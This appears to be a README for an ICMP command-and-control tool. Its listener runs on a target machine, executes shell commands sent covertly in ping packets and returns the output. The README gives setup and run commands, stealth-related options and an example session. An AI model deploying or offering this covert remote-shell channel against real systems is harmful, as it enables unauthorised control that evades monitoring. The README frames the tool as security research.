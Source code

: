 

````markdown
# ICMP Command & Control Framework

This project provides a pair of Python scripts that demonstrate **command and control (C2) over ICMP**:

- **Server** (`icmp_command_server.py`)  
  - Sends commands to connected listeners using ICMP Echo Requests.  
  - Receives and processes responses from listeners.  
  - Manages active listener sessions via heartbeats.  

- **Listener** (`icmp_listener.py`)  
  - Runs on a target machine.  
  - Receives ICMP Echo Requests from the server, extracts and executes commands.  
  - Sends command output back via ICMP Echo Replies.  
  - Sends periodic heartbeats to let the server know it is alive.  

> ⚠️ **Disclaimer**: This framework is for **educational and authorized security research only**.  
> Unauthorized use of this tool on networks you do not own or control is illegal.

---

## Features

- **Server**
  - Interactive shell interface
  - `list` command to show active listeners
  - Supports command broadcast to all listeners
  - Handles chunked responses for large outputs

- **Listener**
  - Executes received commands via system shell
  - Sends responses back in multiple chunks if needed
  - Periodic heartbeat system to notify the server of availability

- **Shared Options**
  - Configurable **ICMP ID** and **TTL**
  - Data encoding: `plain`, `base64`, `hex`
  - Optional compression
  - Optional encryption with [Fernet](https://cryptography.io/en/latest/fernet/) symmetric keys
  - Chunked transmission for large payloads

---

## Requirements

- Python **3.7+**
- [Scapy](https://scapy.net/)  
- [cryptography](https://pypi.org/project/cryptography/)

Install dependencies:

```bash
pip install scapy cryptography
````

---

## Usage

### 1. Configure the Listener

Edit the listener script (`icmp_listener.py`) and set your **server IP** at the top:

```python
SERVER_IP = "10.218.248.63"  # Change to your server's IP
```

---

### 2. Start the Server

```bash
python3 icmp_command_server.py -i <INTERFACE> [options]
```

### 3. Start the Listener

```bash
python3 icmp_listener.py -i <INTERFACE> [options]
```

---

## Arguments

Both **server** and **listener** support the following options:

| Option              | Description                                                         | Default      |
| ------------------- | ------------------------------------------------------------------- | ------------ |
| `-i`, `--interface` | Network interface to sniff and send packets on                      | **Required** |
| `--icmp-id`         | ICMP identifier value                                               | `13170`      |
| `--ttl`             | Time-to-live for sent IP packets                                    | `64`         |
| `--encoding`        | Data encoding method (`plain`, `base64`, `hex`)                     | `plain`      |
| `--compress`        | Enable compression before sending                                   | Disabled     |
| `--encrypt`         | Enable encryption (requires `--key`)                                | Disabled     |
| `--key`             | Encryption key for Fernet (must be provided if `--encrypt` is used) | None         |
| `--chunk-size`      | Maximum size (bytes) per packet payload                             | `500`        |

---

## Example Commands

### Run server with base64 encoding and compression

```bash
python3 icmp_command_server.py -i eth0 --encoding base64 --compress
```

### Run listener with encryption enabled

```bash
# Generate a Fernet key
python3 -c "from cryptography.fernet import Fernet; print(Fernet.generate_key().decode())"

# Run listener with encryption
python3 icmp_listener.py -i wlan0 --encrypt --key <YOUR_KEY>
```

### Send commands from server

Inside the server’s interactive shell:

```
shell> list
Connected listeners:
  - 10.218.248.42

shell> whoami
shell> uname -a
shell> exit
```

---

## Packet Flow Diagram

```
[Server] --(ICMP Echo Request + Command)--> [Listener]
[Listener] --(ICMP Echo Reply + Response)--> [Server]
[Listener] --(ICMP Echo Request + Heartbeat)--> [Server]
```

---

## Security Notes

* **Encryption**: Use Fernet with a shared key between server and listener for confidentiality.
* **Compression**: Reduces packet size, potentially helping with stealth.
* **Encoding**: Use `base64` or `hex` for safer transmission of binary data.
* **Detection**: ICMP-based C2 can be detected by IDS/IPS systems monitoring unusual ICMP payloads.

---

## Disclaimer

This software is intended **solely for research, learning, and authorized security testing**.
The author assumes no liability for misuse. Always ensure you have explicit permission before testing on any network.

---

```
```
